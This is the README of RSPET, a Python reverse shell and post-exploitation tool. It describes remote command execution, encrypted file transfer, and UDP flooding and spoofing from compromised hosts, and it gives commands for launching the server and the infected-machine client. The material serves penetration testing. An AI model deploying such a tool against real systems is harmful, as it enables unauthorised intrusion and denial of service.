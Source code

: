 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg?style=plastic)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg?style=plastic)](https://www.python.org/)
![v0.3.1](https://img.shields.io/badge/Release-v0.3.1-orange.svg?style=plastic)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg?style=plastic)
[![Twitter](https://img.shields.io/badge/Twitter-@TheRSPET-blue.svg?style=plastic)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational and PenTesting purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE: `min` folder has been removed. The added overhead of maintaining two versions lead to `min` not receiving bug-fixes and important updates. If there is interest, both in using and maintaining, a more bare-bone and simplistic version, a new branch will be created to host it.

Current Version: `v0.3.1`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

Documentation : [rspet.readthedocs.io](http://rspet.readthedocs.io)

## Features

* Remote Command Execution
* ~~Trafic masking (XORed instead of cleartext); for better results use port 443~~[1]
* TLS Encryption of the Server-Client communication
* Built-in File/Binary transfer (both ways) over the ~~masked~~ Encrypted traffic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[3]
* Full server side Plug-in support[4]
* Plug-in management, including the ability to Install(Download) and Dynamically Load Plug-ins.
* RESTful API for the Server Module

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privileges. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

*[4]Detailed documentation on creating Plug-ins available in [Online Documentation](http://rspet.readthedocs.io/en/latest/dev/)!

## Deployment:

* `rspet_server.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` is situated in the infected machine(s) and will initiate the connection and wait for input.

## Installation

Executing `./setup.py` while on the project's root folder will generate the required certificates and install all needed components through pip.    

Of course you can manually install the pip packages required by executing `pip2 install Flask flask-cors`.
Also you can generate your own key-cert set (just name them `server.key` & `server.crt` and place them inside the Server folder).

## Execution:

* Server:
```sh
python rspet_server.py [-c #clients, --ip ipToBind, -p portToBind]
```
max_connections defaults to 5 if left blank

* RESTful API:
    ```sh
    python rspet_server_api.py [-c #clients, --ip ipToBind, -p portToBind]
    ```

* Client:
```sh
python rspet_client.py <server_ip> [server_port]
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## ASCIICAST

[![asciicast](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno.png)](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno?autoplay=1)

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] ~~Fix logic bug where if a direct command to Host OS has no output Server displays command not recognized~~
- [ ] Fix logic bug where if a direct command's to Host OS execution is perpetual the Server deadlocks
  - [ ] Investigate weather the issue resides in the Server logic or the linearity of the CLI.
- [x] ~~Add client version and type (min or full) as a property when client connects and at `List_Hosts`~~
- [x] Add TLS encryption in order to:
  - [x] Replace XORing (and subsequently obfuscation with encryption)
  - [ ] Verify the "authenticity" of clients
    - [ ] A mechanism to issue and verify client certificates
    - [ ] A mechanism to recognize compromised client certs
- [ ] Add client update mechanism (initial thought was the use of execv but it acts up)
- [x] Add a Plug-in system to client (a more compact one)
 - [ ] Add remote installation of Plug-ins to client
 - [ ] Add installed Plug-ins report from client to server
- [ ] Add UDP Reflection functionality
- [ ] Provide more settings via config file
- [ ] Re-introduce multythreading when handling multiple hosts.
- [ ] Make commands available with 'Tab' automatically generated based on loaded Plug-ins.
- [x] ~~Fix logical bug when deleting a client. (Client still shows up on List_Hosts)~~
- [x] ~~Create comprehensive Plug-in creation guide.~~
- [ ] Add support for command overridding in server plugins
- [ ] Add dependency support for server plugins

## Styleguide

This project is following [Google's Python Styleguide](https://google.github.io/styleguide/pyguide.html) with a minor variation on the use of whitespaces to align ":" tokens.

## Contribution Opportunities

This project is open for contributors. If you have implemented a new feature, or maybe an improvement to the current code feel free to open a pull request. If you want to suggest a new feature open an issue. Additionally Testers are needed to run a few standard scenarios (and a few of their own maybe) to decrease the chance a bug slips into a new version. Should there be any interest about testing a `beta` branch will be created (where code to be tested will be uploaded) along with a list of scenarios. For a full guide on contribution opportunities and guides check out [the "Contributing" chapter on RSPET's Online Documentation](http://rspet.readthedocs.io/en/latest/contribute/)

## Author - Project Owner/Manager

[panagiks](https://twitter.com/panagiks)

## Co-Author

[dzervas](https://dzervas.gr) -- Code (Server OO-redesign, Server Plug-in system implementation, bug reports, bug fixes)

## Contributors

* [b3mb4m](https://github.com/b3mb4m) -- Code (tab.py and bug fixes)
* [junzy](https://github.com/junzy) -- Docstings (udp_spoof & udp_spoof_send)
* [gxskar](https://github.com/gxskar) -- Documentation (ASCIICAST of RSPET's basic execution)
* [n1zzo](https://github.com/n1zzo) -- Bug Report & Fix (PR [#31](https://github.com/panagiks/RSPET/pull/31))

## License

MIT
